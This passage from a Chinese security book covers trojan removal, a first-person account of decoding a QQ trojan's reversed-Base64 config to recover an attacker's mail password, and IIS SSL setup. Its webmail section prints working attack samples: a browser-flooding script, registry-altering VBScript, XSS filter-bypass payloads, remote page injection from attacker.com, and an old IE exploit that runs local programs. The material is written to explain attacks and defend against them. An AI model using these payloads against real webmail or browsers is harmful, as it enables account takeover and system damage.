如果不小心运行了该木马，会在系统的 System 目录下生成一个名为 diagcfg.exe 的文件，这是木马自身的拷贝。该文件关联 EXE 文件的打开方式，如果你删掉了该文件，将会导致系统所有 EXE 文件无法打开。

木马清除步骤：

首先，重新启动电脑到纯 DOS 下，删除 system 目录下的 diagcfg.exe 文件。然后清除注册表中木马建立的键值，此时需用到注册表编辑器 regedit.exe。由于 diagcfg.exe 文件已经被删除了，因此在 Windows 环境下任何 exe 文件都无法运行，regedit.exe 当然也无法运行了，那该怎么办呢？我们可以将 Regedit.exe 改名为 Regedit.com 嘛，照样可以运行！对了，regedit.exe 在 Windows 安装目录下。

现在，回到 Windows 模式下，运行 Regedit.com，打开注册表编辑器，找到 `HKEY_CLASSES_ROOT\exefile\shell\open\command`，将其默认键值改成 `"%1" "%*"`；再找到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices`，删除其中名为“Diagnostic Configuration”的键值，关闭注册表编辑器，回到 Windows 目录，将 Regedit.com 改名为 Regedit.exe 即可。至此，就清除了木马广外女生。

#### 三、木马广外幽灵清除方法

广外幽灵是一款专门窃取密码的新木马，由于采用了先进的技术使得发现它非常困难！如果你打算通过查找进程的方式来发现它，建议你打消这个念头，因为该软件使用了先进的“线程插入”技术，可以越过防火墙，系统中不会新增任何任务进程。

如果不小心运行了该木马，会在系统的 system 下生成两个木马文件：scanregw.exe 和 gst00.tmp，文件大小分别为 36KB 和 20KB。广外幽灵用木马 scanregw.exe 代替了系统中正常的 scanregw.exe，由此达到加载运行的目的。正常的 scanregw.exe 在 Windows 目录下，用来检测和备份注册表。

木马清除步骤：

首先，删除系统的 system 文件夹下的木马文件 scanregw.exe 和 gst00.tmp。接着，打开注册表编辑器，找到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`，把 `"ScanRegistry"="C:\WINDOWS\SYSTEM\SCANREGW.EXE /autorun"` 修改为 `"ScanRegistry"="C:\WINDOWS\SCANREGW.EXE /autorun"`，或干脆删除“ScanRegistry”也可以。到此，就清除了木马广外幽灵，可以放心了。

## 7.2 没有硝烟的战争——我是怎样抓到下木马者的

最近真倒霉，QQ 被人盗了，想想最近只打开过一封邮件的附件，那个附件是可执行文件，除此之外再没有用过任何外来的软件，也没有随便浏览其他的网页，看来正是那个附件搞的鬼，那个可执行文件一定含有木马！可这封信是从一个朋友的信箱中发来的，我已经问过他，他发誓不是他干的，并说这个信箱被别人破解了。现在问题明白了，看来是别人冒充我的朋友给我发了一封含有木马的邮件，而我又出于对朋友的信任没有留意，点击了这个附件，于是就中了木马，QQ 就是这样被木马给盗走的！

搞清楚了原因，利用 QQ 密码保护功能把密码给取了回来，但总是心有不甘，密码虽然被窃，但总算是找回来了，所以也就算了，但朋友的信箱被人横刀夺爱总不能袖手旁观吧？这可不是我做人的原则。于是打定主意找回朋友的信箱密码。

把那个附件中的可执行文件存到硬盘上，用 16 进制编辑器 UltraEdit 打开，仔细一看，发现该可执行文件有两个可执行文件头，看来是用捆绑机捆绑过的，我也正是因此而中了木马的埋伏。继续向下看，仔细观察数据段，发现数据段中有“psss6.5”“winplo.exe”“msread.dt”这样的字样，这应该是捆绑前的木马的一些数据。正巧最近刚刚从某杂志的光盘中看到一个软件名字也带有 pass 字样，找出光盘一看，该软件叫“QQ杀手”，是款 QQ 窃取木马。莫非就是这个“QQ杀手”干的好事？到各大黑客站点一看，果然高居下载排行榜的前列，看来很有可能是它！

从光盘中找到“QQ杀手”进行安装，然后自己配置了一下木马文件，和那个捆绑过的文件进行比较，终于找到“幕后主谋”了——原来我真的中了该木马！UltraEdit 中显示的“psss6.5”是木马的版本号，“winplo.exe”是木马程序，“msread.dt”是记录 QQ 资料和密码的文件，文件大小 502 字节。而且该木马还提供 qqbin.exe 捆绑器，看来我就是因它而中木马的！实在是教训啊。

再次仔细查看 UltraEdit 中的那个可执行文件，看到了类似这样的一些记录（以下内容是经过修改后的内容，并非是原文，否则看到的将是一堆乱码）：

```
mima_wenjian.zl4=
fuwuqi.c8I0aC4XBjuPY14V
jieshou_youxiang.uMcQp=
yonghu_ming.uPCy=
yonghu_mima.==ARDJUQ
smtp_biaozhi.vsc=
fasong_zhuti.WFhYWFg=
```

不难看出这是木马配置记录，这些信息显然经过加密处理。再仔细看看，原来是 Base64 编码，这下有门了。赶紧动手，将上述所有的编码一一进行解码，于是终于知道了这个下木马的家伙用的邮箱的用户名、服务器、接收邮箱……唯一没有得到的就是其用户密码，看来用户密码的编码方式没那么简单。决不能这样就便宜了他，一定要找到这个信箱的密码，帮朋友夺回属于他的一切！

Base64 是 MIME（Multipurpose Internet Mail Extensions，多用途 Internet 邮件扩充）的编码方案之一，MIME 邮件不仅能传送文本，还能传送声音、图像、程序等二进制信息，它是通过编码将二进制信息转换为字符信息进行传送，接收端再解码恢复原始信息来实现的。为此，MIME 邮件首部除了包含 From:、TO:、Subject: 等一般邮件首部信息以外，还应包括 MIME 头部信息：MIME 的版本、发送的数据类型及 MIME 的编码格式。下面是一个 MIME 头部的示例：

```
MIME-Version: 1.0
Content-Type: text/plain; charset=GB2312_CHARSET
Content-Transfer-Encoding: base64
```

MIME 的编码方案有许多种，Base64 只是其中最常用的一种。Base64 编码方案将要传送的信息转化为 64 个 ASCII 字符（'A'~'Z'，'a'~'z'，'0'~'9'，'+'，'/'）组成的字符串，以 3 字节为单位进行处理。然后将这 3 字节划分为 4 个部分，高位在先，每个部分 6 位，每个部分只能为 0～63 中的某个数，按以下方法映射为 64 个 ASCII 字符：0~25→'A'~'Z'，26~51→'a'~'z'，52~61→'0'~'9'，62→'+'，63→'/'。如果输入只有一个或两个字节，那么输出将用等号“=”补足。如果输出超过 76 个字符，则另起一行。即编码过程中每输出 76 个字符后，应输出 `\r\n` 字符。Base64 将 3 字节的信息转化为四字节的字符信息加上回车符，所以经过 Base64 编码，长度将增长为超过 4/3 倍。

举个例子，对字符串“ABCD”进行 Base64 编码。“ABCD”即 `01000001 01000010 01000011 01000100`，以 6bit 为一段来划分其结果为：`010000 010100 001001 000011 010001 00`，即 16,20,9,3,17,0，按上述转化方法即为 'Q'，'U'，'J'，'D'，'R'，'A'，补足空缺字节后，编码结果为“QUJDRA==”，对于 Base64 的解码则是以上的逆过程，这里不再赘述。

继续我们的分析。在配置木马“QQ杀手”时，为图省事我曾把用户密码设成“1”，在配置文件中显示的密码为“==QM”，看起来和 Base64 编码很像，只不过“=”跑到了前面而不是补到后面。换个角度想，如果我是木马的作者，会怎么办呢？一个念头突然出现在我的脑海中：把看到的密码倒过来然后进行解码！即把“==QM”倒过来得到“MQ==”，再用 Base64 编码进行逆运算。赶紧一试，“==QM”倒过来是“MQ==”，进行解码运算，得到对应的密码为“1”，而我在配置木马时设定的密码正是 1！哈，问题可以得到解决了！对方的邮箱密码为“==ARDJUQ”，倒过来就是“QUJDRA==”，根据 Base64 编码的算法进行逆运算，得到解码“ABCD”，也就是说对方邮箱的密码为 ABCD！到此就可以了，我的目的已经达到了。

注意：如果你不会根据 Base64 编码进行解码，这里简单地说一下。以 Base64 编码“MQ==”为例。首先，取出其中的 M，M 在 Base64 编码中排在第 13 位，这是因为 0~25 为 'A'~'Z'，所以 M 为十进制的 12。将 12 转为二进制为 1100，根据 Base64 编码的特点要补足 6 位，于是在前面置两个“0”，得到 001100。同理得到“MQ==”中 Q 的 Base64 解码为 010000，将 M 和 Q 合并在一块就是 001100010000，从左到右取 8 位得到 00110001，换算为 16 进制为 31，而 31 正是 ASCII 码“1”，就这样我们得到了 Base64 编码“MQ==”的解码为 1。我们就是利用这个方法得到了对方的邮箱密码！

最后，再次提醒大家不要随便运行别人发来的程序，就算是熟悉的朋友发来的东西也要先检查检查，因为他可能会在无意中害了你！本文没有多少技术可言，只希望大家在遇到问题时能换个角度去思考，有时会有意想不到的结果，就像笔者这样。

## 第8章 把好自己的防线

### 8.1 构建一个基于SSL的安全Web网站

本文着重讲述如何将自己的网站配置成一个基于 SSL 的 Web 站点。本文假定系统环境为 Windows 2000 Advance Server，并已经运行 IIS 5.0。同时，假设要配置服务器的 IP 地址为 120.10.10.11。

### 安装安全

一般来说，商业上正规的安全认证证书是由专门的安全认证中心统一颁发的，这种证书需要申请，而且要花钱购买。幸运的是，Windows 2000 的标准组件中提供了“证书颁发机构”组件，不用犹豫，马上安装该组件，让自己的计算机也成为安全认证中心，来颁发安全认证证书。

### 安装步骤如下：

- 1. 从“开始→设置→控制面板→添加/删除程序→添加/删除 Windows 组件”，进入“Windows 组件向导”。
- 2. 选中“证书服务”，系统会提示“安装证书服务后，不能重命名计算机，并且计算机不能加入域或从域中删除，要继续吗？”选择“是”（若要重命名计算机、加入域或从域中删除，要重新安装证书颁发机构），单击“下一步”。
- 3. 在此后选择“独立根 CA”，输入 CA 名称（假设为“myCA”），逐步完成安装。

安装完成后，还需进行必要的配置：

- 1. 从“开始→程序→管理工具”进入“证书颁发机构”；
- 2. 鼠标选中“myCA”，按鼠标右键选择“属性”，进入“myCA 属性”窗口；
- 3. 选择“策略模块”，按下“配置”按钮，进入“属性”对话框；
- 4. 在“默认操作”项选择“始终颁发证书”，确认后，按提示重新启动，证书服务就完成配置了。

### 获得安全证书

在向“证书颁发机构”申请安全认证证书之前，要先生成申请文件，然后用此申请文件向“证书颁发机构”申请安全认证证书。具体操作步骤如下：

- 1. 从“管理工具”进入“Internet 服务管理器”。
- 2. 启动“Internet 信息服务”（假设要设置为安全 Web 站点的名称是“默认 Web 站点”），找到“默认 Web 站点”，按鼠标右键选择“属性”。
- 3. 在“默认 Web 站点属性”对话框中进入“目录安全性”项目，单击“服务器证书”按钮进入“IIS 证书向导”对话框。
- 4. 选择“创建一个新证书”，然后单击“下一步”逐步完成创建，最后生成证书申请文件 `c:\certreq.txt`。

另外，还需要建立一个新的站点用于证书发布（假设：取名叫“证书发布”，IP 地址为 120.10.10.11，端口为 85），该站点的主目录需要指向 `C:\WINNT\system32\certsrv`。

在配置好安全证书发布主页后，接下来就可以用它来发布证书了：

- 1. 打开 `c:\certreq.txt` 文件，用 Notepad 或其他文本编辑工具打开，选定全部内容并拷贝到剪贴板。
- 2. 打开 IE，在地址栏输入“http://120.10.10.11:85”并确认，根据网页的提示单击“下一步”按钮，逐步完成申请。具体过程为：申请证书→高级申请→使用 Base64 编码的 PKCS #10 或 PKCS #7 文件更新证书申请。在文本输入框中将 `c:\certreq.txt` 的内容（已复制到剪贴板）粘贴进去并提交，选择 Base64 编码，然后下载 CA 证书并保存为 `c:\certnew.cer`。

接下来，安装下载的服务器证书：

- 1. 在“默认 Web 站点属性”对话框中进入“目录安全性”项目；
- 2. 单击“安全通信”栏中的“服务器证书”按钮进入“IIS 证书向导”对话框；
- 3. 选择“处理挂起的请求并安装新证书”，然后单击“下一步”；
- 4. 输入证书的路径 `c:\certnew.cer`，如果一切顺利，就安装好证书了。

### SSL的应用

在应用 SSL 之前，还有一项工作要做，需要设置 Web 的安全通信属性：

- 1. 在“默认 Web 站点属性”对话框中进入“目录安全性”项目；
- 2. 单击“安全通信”栏中的“编辑”按钮进入“安全通信”对话框；
- 3. 选择“申请安全通道（SSL）”和“接收客户证书”然后确认。

这样的配置要求客户端必须使用 SSL 安全通信。在一般情况下，用户可以根据自己的需要自由配置“默认 Web 站点”内的每一个虚拟目录或文件的安全通信属性，以及是否强制客户端必须使用 SSL 传输。

在 Web 的安全通信属性设置中，不同的配置选项会对客户端有不同的要求：如果不选择“申请安全通道（SSL）”，则允许客户端可以选择是否使用 SSL 加密传输，即使用加密方式访问“https://120.10.10.11”或不加密方式访问“http://120.10.10.11”，可以由客户端自己选择。如果选择了“申请安全通道（SSL）”，则要求客户端必须使用 SSL 加密传输，即必须使用 `https://120.10.10.11` 的形式。选择“申请 128 位加密”，要求客户端的浏览器必须支持 128 位的加密强度。建议不要选择该项，因为一般的浏览器支持的是 56 位的加密强度，而且系统帮助文件里提到 128 位加密技术只限制在美国本土和加拿大使用，不向其他国家出口。

当 Web 服务器的安全通信属性配置为“申请安全通道（SSL）”和“申请客户证书”后，客户端以 HTTPS 的形式访问该 Web 时，会被提醒需要选择一个已经安装的客户证书；如果没有客户证书或者没有服务器信任的客户证书，都不能访问。客户证书是服务器判断客户端是否可信任的依据，用来防止不被信任的客户端访问该服务器。申请和安装客户证书的具体步骤为：打开 IE，在地址栏输入“http://120.10.10.11:85”并确认，根据网页的提示单击“下一步”按钮逐步完成申请。申请过程中分别选择：申请证书→用户证书申请（选择“Web 浏览器证书”）→输入在证书中出现的标识信息（至少要输入名称）→您申请的证书已发布给您（点击“安装此证书”）→您的新证书已经成功安装。当用 IE 再一次访问 Web 服务器时，会弹出“客户身份验证窗口”，在该窗口内选择刚才安装的客户证书，然后确认，就可以正常访问服务器了。

应用 SSL 传输网上信息后，可以保证信息的安全，但是网站的速度会受影响，因为加密是需要花时间的。本文所讲述的例子是将整个站点都配置为要求 SSL 传输，也就是说，访问的所有文件都是加密传输的。实践中建议 SSL 安全传输只使用在一些关键信息的传输上，比如验证用户名、密码（口令）或其他需要保密的信息等，一般的信息可以正常传输。这样分配后，网站速度几乎不受影响。

### 8.2 Webmail攻防实战

Webmail 是指利用浏览器通过 Web 方式来收发电子邮件的服务或技术，不需借助邮件客户端。可以说，只要能上网就能使用 Webmail，极大地方便了用户对邮件的收发。对于不能熟练使用邮件客户端，或者在网吧不便使用邮件客户端的用户来说，Webmail 更是必不可少的选择。E-mail 能够成为当今 Internet 上应用最广泛的网络服务，Webmail 可谓功不可没。

由于用户的使用不当或者 Webmail 系统的开发不周，都有可能给 Webmail 的使用带来更多的安全威胁。同样，Webmail 系统作为当今电子邮件系统的重要组成部分，它的安全性也是不可忽视的。

#### 一、邮件地址欺骗

邮件地址欺骗是非常简单和容易的。攻击者针对用户的电子邮件地址，取一个相似的电子邮件名，在 Webmail 的邮箱配置中将“发件人姓名”配置成与用户一样的发件人姓名（有些 Webmail 系统没有提供此功能），然后冒充该用户发送电子邮件。在他人收到邮件时，往往不会从邮件地址、邮件信息头等上面做仔细检查，从发件人姓名、邮件内容等上面又看不出异常，误以为真，攻击者从而达到欺骗的目的。例如某用户的电子邮件名是 wolfe，攻击者就会取 w0lfe、wo1fe、wolfee、woolfe 之类相似的电子邮件名来进行欺骗。虽然免费的午餐越来越难吃，但还是有很多用户使用的是免费电子邮箱，通过注册申请，攻击者很容易得到相似的电子邮件地址。

人们通常以为电子邮件的回复地址就是它的发件人地址，其实不然。在 RFC 822 中明确定义了发件人地址和回复地址可以不一样，熟悉电子邮件客户端使用的用户也会明白这一点，在配置账户属性或撰写邮件时，可以指定与发件人地址不同的回复地址。由于用户在收到某个邮件时，虽然会检查发件人地址是否真实，但在回复时，并不会对回复地址做出仔细的检查，所以，如果配合 SMTP 欺骗使用，发件人地址是要攻击的用户的电子邮件地址，回复地址则是攻击者自己的电子邮件地址，那么这样就会具有更大的欺骗性，诱骗他人将邮件发送到攻击者的电子邮箱中。

所谓害人之心不可有，防人之心不可无，鉴于邮件地址欺骗的易于实现和危险性，我们不得不时时提防，以免上当受骗。对于 Webmail 系统而言，提供邮件信息头内容检查、SMTP 认证（如果该邮件系统支持 SMTP 的话）等服务技术，将邮件地址欺骗带来的危害降至最小是非常有必要的。对邮件用户而言，认真检查邮件的发件人邮件地址、发件人 IP 地址、回复地址等邮件信息头内容也是很重要的。

### 二、Webmail暴力破解

Internet 上客户端与服务端的交互，基本上都是通过在客户端以提交表单的形式交由服务端程序（如 CGI、ASP 等）处理来实现的，Webmail 的密码验证即如此。用户在浏览器的表单元素里输入账户名、密码等信息并提交以后，服务端对其进行验证，如果正确的话，则欢迎用户进入自己的 Webmail 页面；否则，则返回一个出错页面给客户端。

因此，攻击者借助一些黑客工具，不断地用不同的密码尝试登录，通过比较返回页面的异同，判断出邮箱密码是否破解成功。帮助攻击者完成此类暴力破解的工具有不少，如 wwwhack、小榕的溯雪等，尤其溯雪的功能最为强大，它本身已经是一个功能完善的浏览器，通过分析和提取页面中的表单，给相应的表单元素挂上字典文件，再根据表单提交后返回的错误标志判断破解是否成功。

有多次错误登录，即认为该账户受到了暴力破解，防范措施一般有如下 3 种：

- 1. 禁用账户

把受到暴力破解的账户禁止一段时间登录，一般是 5～10 分钟。但是，如果攻击者总是尝试暴力破解，则该账户就一直处于禁用状态不能登录，导致真正的用户不能访问自己的邮箱，从而形成 DoS 攻击。

- 2. 禁止 IP 地址

把进行暴力破解的 IP 地址禁止一段时间不能使用 Webmail，这虽然在一定程度上解决了“禁用账户”带来的问题，但更大的问题是，这势必导致在网吧、公司、学校甚至一些城域网内共用同一 IP 地址访问 Internet 的用户不能使用该 Webmail。如果攻击者采用多个代理地址循环攻击，甚至采用分布式的破解攻击，那么“禁止 IP 地址”就难以防范了。

- 3. 登录检验

这种防范措施一般与上面两种防范措施结合起来使用，在禁止不能登录的同时，返回给客户端的页面中包含一个随机产生的检验字符串，只有用户在相应的输入框里正确输入了该字符串才能进行登录，这样就能有效避免上面两种防范措施带来的负面影响。不过，攻击者依然有可乘之机，通过开发出相应的工具提取返回页面中的检验字符串，再将此检验字符串作为表单元素值提交，那么又可以形成有效的 Webmail 暴力破解了。如果检验字符串是包含在图片中，而图片的文件名又随机产生，那么攻击者就很难开发出相应的工具进行暴力破解，在这一点上，Yahoo 邮箱就是一个非常出色的例子。

虽然 Webmail 的暴力破解有诸多的防范措施，但它还是很难被完全避免。如果 Webmail 系统把一分钟内 5 次错误的登录当成是暴力破解，那么攻击者就会在一分钟内只进行 4 次登录尝试。所以，防范 Webmail 暴力破解主要靠用户自己采取良好的密码策略，如密码足够复杂、不与其他密码相同、密码定期更改等。这样，攻击者便很难暴力破解成功。

#### 三、邮箱密码恢复

难免会有用户遗失邮箱密码的情况发生，为了让用户能找回密码继续使用自己的邮箱，大多数 Webmail 系统都会向用户提供邮箱密码恢复机制，让用户回答一系列问题，如果答案都正确的话，就会让用户恢复自己邮箱的密码。但是，如果密码恢复机制不够合理和安全，就会给攻击者加以利用，轻松获取他人邮箱密码。

下面是许多 Webmail 系统密码恢复机制所采取的密码恢复步骤，用户对每步提出的问题回答正确的话，才会进入下一步，否则返回出错页面。针对每一步，攻击者都有可乘之机。

- 第一步，输入账户：在进入密码恢复页面后，首先提示用户输入要恢复密码的邮箱账户。这一步对攻击者而言自然不成问题，邮箱账户就是他要攻击的目标。

- 第二步，输入生日：提示用户按年月日输入自己的生日。这一步对攻击者而言也很轻松，年月日的排列组合很小，借助穷举等工具很快就能破解出来，所以 Webmail 系统有必要在此采取暴力破解防范措施。并且每个用户需要注意的是，攻击者不一定来自地球的另一端，很可能就是你身边的人，或许这些人更想知道你邮箱里有什么秘密，而他们要弄清你的生日往往是件轻而易举的事情。你不是昨天才过了生日 Party 吗？你不是刚刚把身份证复印件交给人事部门吗？所以，为了邮箱安全，用户是不是要把真实的生日作为邮箱注册信息，Webmail 系统是不是一定要用户输入真实的生日作为注册信息，这还有待考虑。

- 第三步，问题回答：提示用户回答自己设定的问题，答案也是用户自己设定的答案。在这一步，攻击者往往只有靠猜测。不幸的是，很多用户的问题和答案是如此简单，以致于攻击者能轻易地猜测出来，例如提出的问题只是知识性的问题，提出的问题和答案相同等。攻击者对用户越熟悉，成功的可能性就越大。例如有用户问“你男朋友是哪里人”，殊不知，攻击者正是她的男朋友。所以，用户把问题设置成唯有自己知道的答案至关重要，这样攻击者才很难得逞。不过不要忘了答案，否则就得不偿失了。

在用户正确完成以上各步骤以后，Webmail 系统就会让用户恢复自己邮箱账户的密码。密码恢复的方式又各有不同，一般有如下几种方式，安全程度各有不同：

- 1. 页面返回

返回的页面里显示用户的邮箱密码。这样固然方便省事，但是如果让攻击者得到密码，则能在丝毫不惊动用户的情况下使用用户的邮箱，使得攻击者能长期监视用户的邮箱使用情况，给用户带来更大的安全隐患。

- 2. 邮件发送

将密码发送到用户注册时登记的另一个邮箱里。对于攻击者来说，忙了半天，仍然是一无所获，除非继续去攻击另一个邮箱；对于用户来说，在另一个邮箱里收到发来的密码则是一个警告，说明有攻击者猜测到了他的邮箱密码提示问题，迫使用户尽快改变自己的密码提示问题。

不过，如果用户注册时登记的不是一个正确的邮箱，或者该邮箱已经失效，那么，这样不仅是攻击者，就是用户本人也永远得不到密码了。有些 Webmail 系统在注册时要求用户登记正确的邮件地址，并把邮箱开通的验证信息发往该邮件地址，不过这样仍然不能避免用户在邮箱失效后不能恢复自己邮箱密码的情况发生。

- 3. 密码重设

让用户重新设置一个密码。相比“页面返回”方式，这种方式在攻击者重设密码后，用户因为不能正常登录进自己的邮箱而能察觉出受到攻击，安全性相对好一些。但是，相比“邮件发送”方式，因为攻击者能立即修改邮箱密码，少了一层保障，安全性又差一些。

由“页面返回”或“邮件发送”回来的密码可以明显看出，该电子邮件系统是把邮箱账户的密码未经加密直接以明文保存在数据库或 LDAP 服务器中。这样就造成很大的安全隐患，Webmail 系统管理员或侵入数据库的攻击者能轻易获取用户的邮箱密码，用户却完全不知情。所以，为了加大保密性，有必要将邮箱密码加密后再以密文存入数据库，最好用不可逆的单向加密算法，如 MD5 等。

邮箱密码恢复机制是否安全，主要还是看 Webmail 系统提出什么样的问题、采取什么样的问答方式，例如将多个密码恢复步骤中提出的问题放在一步中一起提出，就会相应地增加攻击者的难度，从而提高安全性，像搜狐邮件、新浪邮件和 Yahoo 电邮等都是一些令攻击者失望的例子。

#### 四、恶性 HTML 邮件

电子邮件有两种格式：纯文本（TXT）和超文本（HTML）。HTML 邮件由 HTML 语言写成，当通过支持 HTML 的邮件客户端或以浏览器登录进入 Webmail 查看时，有字体、颜色、链接、图像、声音等等，给人以深刻的印象，许多垃圾广告就是以 HTML 邮件格式发送的。

利用 HTML 邮件，攻击者能进行电子邮件欺骗，甚至欺骗用户更改自己的邮箱密码。例如攻击者通过分析 Webmail 密码修改页面的各表单元素，设计一个隐含有同样表单的 HTML 页面，预先给“新密码”表单元素赋值，然后以 HTML 邮件发送给用户，欺骗用户说在页面中提交某个表单或点击某个链接就能打开一个精彩网页；用户照做后，在打开“精彩网页”的同时，一个修改邮箱密码的表单请求已经发向 Webmail 系统，而这一切，用户完全不知情，直到下次不能登录进自己邮箱的时候才发觉。

为了防止此类 HTML 邮件欺骗，在修改邮箱配置时，特别是修改邮箱密码和提示问题时，Webmail 系统有必要让用户输入旧密码加以确认，这样能有效防止截取到当前 Webmail 会话的攻击者（下面会介绍）更改邮箱密码。

通过在 HTML 邮件中嵌入恶性脚本程序，攻击者还能进行很多破坏攻击，如修改注册表、非法操作文件、格式化硬盘、耗尽系统资源、修改“开始”菜单等，甚至能删除和发送用户的邮件、访问用户的地址簿、修改邮箱账户密码等等。恶性脚本程序一般由 JavaScript 或 VBScript 脚本语言写成，内嵌在 HTML 语言中，通过调用 ActiveX 控件或者结合 WSH 来达到破坏攻击目的。深受修改浏览器的恶性 HTML 页面之痛，饱经“欢乐时光”邮件病毒之苦的朋友，对此应该不会陌生。下面是两个简单的恶性脚本程序：

- 1. 打开无数个浏览器窗口，直至 CPU 超负荷，非关机不可：

```html
<script language="JavaScript">
<!--
while (true)
{
  window.open('URI'); // 如果URI就是当前页本身，那就更具破坏性。
}
//-->
</script>
```

- 2. 修改注册表

```vbscript
<script language="VBScript">
Set RegWsh = CreateObject("WScript.Shell")
' 设置IE浏览器默认页
RegWsh.RegWrite "HKCU\Software\Microsoft\Internet Explorer\Main\Start Page", "http://www.attacker.com"
</script>
```

鉴于脚本程序可能带来的危险，Webmail 系统完全有必要禁止 HTML 邮件中的脚本程序。禁止脚本程序的基本做法就是过滤掉 HTML 源程序中能够使脚本程序运行的代码，如 Script 元素等，在这方面做得最好的莫过于 Hotmail 了。下面是些常见的绕过脚本程序过滤的方法，不少的 Webmail 系统仍没有完全改正：

- (1) 在 HTML 语言里，除了 Script 元素内的或在 Script 元素内引入的脚本程序能在 HTML 页面装载时被运行外，使用事件属性也能调用脚本程序运行。事件属性在 JavaScript 语言里被称为事件句柄，用于对页面上的某个特定事件（如鼠标点击、表单提交）做出响应，驱动 JavaScript 程序运行。它的语法如下：

```html
<tag attribute1 attribute2 onEventName="javascript code;">
例如：
<body onload="alert('JavaScript#1 is executed');">
<a href="#" onclick="alert('JavaScript#2 is executed');">Click here</a>
<form method="post" action="#" onsubmit="alert('JavaScript#3 is executed');">
  <input type="submit" value="Submit">
</form>
</body>
```

- (2) URI（Universal Resource Identifier：通用资源标识）用于定位 Internet 上每种可用的资源，如 HTML 文档、图像、声音等。浏览器根据 URI 的资源类型（URI scheme）调用相应的程序操作该资源，如果把一些元素的 URI 属性值的资源类型设为 JavaScript，则能够调用 JavaScript 程序运行。语法如下（注意要用“;”分隔不同的 JavaScript 语句）：

```html
<tag attribute="javascript:javascript code;">
例如：
<body background="javascript:alert('JavaScript#1 is executed');">
<a href="javascript:alert('JavaScript#2 is executed');">Click here</a>
<form method="post" action="javascript:alert('JavaScript#3 is executed');">
  <input type="submit" value="Submit">
</form>

</body>
```

- (3) 由于软硬件或其他原因，一些冷僻或特殊的字符不能输入或正确显示在 HTML 页面上；为了解决这个问题，HTML 中可以使用 SGML 字符参考。字符参考是一种用来指定文档字符集中任何字符的独立编码机制，以“&”开始，以“;”结束。字符参考有两种表达方式：数字字符参考和实体字符参考。数字字符参考的语法为“&#D;”（D 代表一个十进制数），或“&#xH;”、“&#XH;”（H 代表一个十六进制数），例如“&#65;”、“&#x41;”表示字母“A”，“&#27700;”、“&#x6C34;”表示汉字“水”。攻击者把 HTML 语句里的一些字符以数字字符参考来代替，这样能避开 Webmail 系统对脚本程序的过滤。需要注意的是，元素和属性不可以用字符参考表示，例如：

```html
<body>

<a href="&#x6a;av&#x41;s&#67;ript&#x3a;ale&#x72;t('JavaScript#2 &#x69;&#x73; executed')">Click her&#x65;</a>
<form method="post" action="javascript:alert('JavaScript#3 is executed')">
<input type="&#x53;ubmit" value="Submit">
</form>
</body>
```

- (4) 样式表是层叠样式表（CSS：Cascading Style Sheet）的简称，用于控制、增强或统一网页上的样式（如字体、颜色等），它能够将样式信息与网页内容相分离。在 HTML 语言的 style 标签内可以用 @import 声明输入一个样式表。但是，如果输入的资源类型或内容是 JavaScript，Internet Explorer 浏览器仍然会执行。例如：

```html
<style type="text/css">
<!--
@import url(javascript:alert('JavaScript#1 is executed'));
@import url(http://www.attacker.com/js.css);
-->
</style>
其中 http://www.attacker.com/js.css 的内容如下所示：
@import url(javascript:alert('JavaScript#2 is executed'));
@import url(javascript:eval(String.fromCharCode(97,108,101,114,116,40,39,84,101,115,116,32,49,39,41,59,97,108,101,114,116,40,39,84,101,115,116,32,50,39,41,59)));
```

能够绕过 Webmail 系统对脚本程序过滤的方法远不止上面所说的这些，例如曾有人发现把“<script>”标签改成“<_a<script>”和“<<script>”的样子就能绕过 Yahoo 电邮的过滤，这个漏洞 Yahoo 在最近才改正过来。

除了可以在 HTML 邮件中直接嵌入脚本程序外，攻击者还可以设计一些 HTML 代码，在用户打开 HTML 邮件时，不知不觉引入另一个 HTML 文件，而此文件中正含有恶性代码，这样不仅能直接绕过 Webmail 系统对脚本程序的过滤，而且还能有效避开提供了防毒服务的邮件系统对恶性代码的查杀。下面是几个调用 HTML 文件的例子：

- 1. Refresh 到另一个页面

```html
<body>
<meta http-equiv="refresh" content="1;URL=http://www.attacker.com/another.htm">
</body>
```

- 2. Iframe 引入另一个页面

```html
<body>
<iframe src="http://www.attacker.com/import.htm" frameborder="0"></iframe>
</body>
```

- 3. Scriptlet 引入另一个页面

```html
<body>
<object type="text/x-scriptlet" data="http://www.attacker.com/import.htm"></object>
</body>
```

攻击者还可以采取如下方法，使带有恶性代码的 HTML 邮件具有更大的隐蔽性：

- 1) 配合邮件欺骗技术，使用户不会怀疑收到的邮件，并且攻击者也能隐藏自己的行踪；
- 2) 把 HTML 邮件设计成看起来像 TXT 邮件；
- 3) 有时可以把 HTML 邮件中的恶性代码放在一个隐藏的层里面，表面上看不出任何变化。

针对恶性脚本程序的影响，对用户常见的建议办法是提高浏览器的安全级别，如禁用 ActiveX、脚本等，但这并不是一个很好的办法，因为这样会影响到用户对其他正常 HTML 页面的浏览。即使浏览器达到了最高级别，依然对某些恶性代码无济于事。下面是一位以色列安全专家发现的漏洞，能让 Windows 系统自动执行任何本地程序，即使 Internet Explorer 已经禁止了 ActiveX 和脚本程序。

```html
<span datasrc="#oExec" datafld="exploit" dataformatas="html"></span>
<xml id="oExec">
<security>
<exploit>
<![CDATA[
<object id="oFile" classid="clsid:{11111111-1111-1111-1111-111111111111}" codebase="c:/winnt/system32/calc.exe"></object>
]]>
</exploit>
</security>
</xml>
```

面对恶性 HTML 邮件，Webmail 系统和用户似乎都没有很好的解决办法，虽然许多 Webmail 系统已经能够过滤掉 HTML 邮件中的很多恶性代码。不过令人遗憾的是，要想彻底过滤掉恶性代码并不是一件容易的事情，攻击者总能利用 Webmail 系统过滤机制和浏览器的漏洞找到办法绕过种种过滤，Webmail 系统所能做的就是发现一个漏洞弥补一个漏洞。

为了减少乃至避免恶性 HTML 邮件的影响，在打开 HTML 邮件之前，Webmail 系统有必要提醒用户这是一个 HTML 邮件，如果能提供让用户以文本方式浏览 HTML 邮件的功能，则是最好不过。在打开不明邮件之前，用户更要小心谨慎，最好把 HTML 邮件“目标另存为”到本地硬盘上再打开来看，如果能先查看 HTML 邮件源代码，则是最好不过的。

另外需要特别提醒用户注意的是，虽然一些电子邮件系统会在 Webmail 系统上对 HTML 邮件中的恶性代码进行过滤，但在 POP3 服务器上不会进行过滤，所以，如果是通过邮件客户端收取邮件，仍然要谨防恶性 HTML 邮件的危害。

#### 五、Cookie 会话攻击

